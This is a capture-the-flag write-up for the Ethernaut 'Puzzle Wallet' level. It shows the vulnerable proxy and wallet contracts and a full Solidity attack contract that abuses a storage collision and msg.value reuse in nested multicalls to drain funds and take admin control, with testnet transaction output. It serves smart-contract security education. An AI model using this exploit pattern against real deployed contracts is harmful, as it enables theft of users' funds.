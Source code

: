 
<img src="https://ethernaut.openzeppelin.com/imgs/BigLevel24.svg">


# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

Challenge's message:

> Nowadays, paying for DeFi operations is impossible, fact. A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this. They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners. Little did they know, their lunch money was at risk… You'll need to hijack this wallet to become the admin of the proxy.

# Subverting

```solidity
pragma solidity ^0.8.20;

interface IPuzzleWallet {
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to,uint256 value,bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Attack {

    IPuzzleWallet target;

    constructor(address _target) payable {
        target = IPuzzleWallet(_target);
    }

    function attack()external payable{
        target.proposeNewAdmin(address(this));
        target.addToWhitelist(address(this));
        bytes[] memory multicall_data = new bytes[](1);
        multicall_data[0] = abi.encodeWithSelector(target.deposit.selector);
        bytes[] memory data = new bytes[](2);
        data[0] = multicall_data[0];
        data[1] = abi.encodeWithSelector(target.multicall.selector,multicall_data);
        target.multicall{value: 0.001 ether}(data);
        target.execute(msg.sender, 0.002 ether, "");
        target.setMaxBalance(uint256(uint160(msg.sender)));
    }
}
```

See transaction [on etherscan.](https://sepolia.etherscan.io/tx/0x2da8bb4ebf2d5d08fb66fb35243b48e32291ee1e1fa3d4593bf2b3cf6926cb79)

```js
await contract.owner()
'0x725595BA16E76ED1F6cC1e1b65A88365cC494824'
```

See transaction [on etherscan.](https://sepolia.etherscan.io/tx/0x3d7753c99a314a2fd73ff6c742302572fbb7b65320cca9b0504a84407e2492ef)

```js
await contract.owner()
'0x161b32b093F93FF8F43C250a448cA66a7fed4374'
```


Ethernaut's message:

> Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level. Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract. Move on to the next level when you're ready!
